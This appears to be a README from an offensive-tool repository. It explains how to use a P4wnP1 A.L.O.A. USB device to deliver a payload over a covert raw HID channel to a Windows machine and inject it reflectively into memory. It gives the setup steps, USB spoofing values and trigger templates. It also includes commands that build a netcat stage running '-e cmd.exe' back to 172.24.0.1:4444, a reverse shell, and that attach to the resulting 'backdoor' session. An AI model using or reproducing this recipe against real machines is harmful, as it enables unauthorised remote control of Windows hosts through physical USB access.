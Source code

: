# Reflective PE Injection using HID covert channel

### Description

Use a Covert RAW HID channel to deliver a payload to a windows machine and load it to memory using [powersploit "Invoke-ReflectivePEInjection"](https://powersploit.readthedocs.io/en/latest/CodeExecution/Invoke-ReflectivePEInjection/)

- The Invoke-ReflectivePEInjection.ps1 in this repository has been modified to work on Windows 10.

## Requirements

- Copy the "**Injection.sh**" script to `/usr/local/P4wnP1/scripts/`
- chmod `root@kali:/usr/local/P4wnP1/scripts# chmod 755 Injection.sh`
- Copy the "**Invoke-ReflectivePEInjection.ps1**" payload to `/usr/local/P4wnP1/legacy/`
- Copy the "**StageGenerator.py**" script to `/usr/local/P4wnP1/legacy/`
- Copy the "**Stage1.js**" to `/usr/local/P4wnP1/HIDScripts/`
- Generate Stage2 payload (netcat Reflective PE Injection) `root@kali:/usr/local/P4wnP1/legacy# python2 StageGenerator.py /usr/share/windows-binaries/nc.exe "172.24.0.1 4444 -e cmd.exe"`

## Configuration

**Create a USB setting template with the following settings:**

- Keyboard
- Custom HID device
- Vendor ID: `0x1d6b`
- Product ID: `0x1315`
- Manufacturer Name: `MaMe82`
- Product Name: `P4wnP1 by MaMe82`
- Serial Number: `deadbeef1337`

_If you want to use other VID/PID you will need to update the values in Stage1.js and Stage2.ps1_

**Store the template under the name "Injection"**

**Create a trigger action** that starts the bash script "Injection.sh" when USB gadget connected to host, **Store the template under the name "Injection"**

**Create a master template** with the following settings:

- TriggerActions Template: `Injection`
- USB Template: `Injection`
- WiFi Template: `startup`
- Bluetooth Template: `startup`
- Networks templates: `bteth_startup, usbeth_startup, wlan0_startup_dhcp_server`

## Execution

- Connect to the P4wnP1 A.L.O.A web interface (using the access point ip "172.24.0.1") and deploy the master template "**Injection**"
- SSH into your P4wnP1 A.L.O.A access point ip "172.24.0.1" and run the following command: `root@kali:~# screen -d -r backdoor`

## StageGenerator.py

You can use **StageGenerator.py** generate a Reflective PE Injection payload using any executable file and deliver it using the P4wnP1 raw HID covert channel.

Just make sure the **Invoke-ReflectivePEInjection.ps1** file is in the same directory as **StageGenerator.py**

### Usage:

`root@kali:/usr/local/P4wnP1/legacy# python2 StageGenerator.py "PE_EXECUTABLE_FILE_PATH" "EXECUTABLE_FILE_ARGUMENTS"`

Example With Arguments:

`root@kali:/usr/local/P4wnP1/legacy# python2 StageGenerator.py /tmp/netcat.exe "172.24.0.1 4444 -e cmd.exe"`

Example Without Arguments:

`root@kali:/usr/local/P4wnP1/legacy# python StageGenerator.py /tmp/netcat.exe ""`

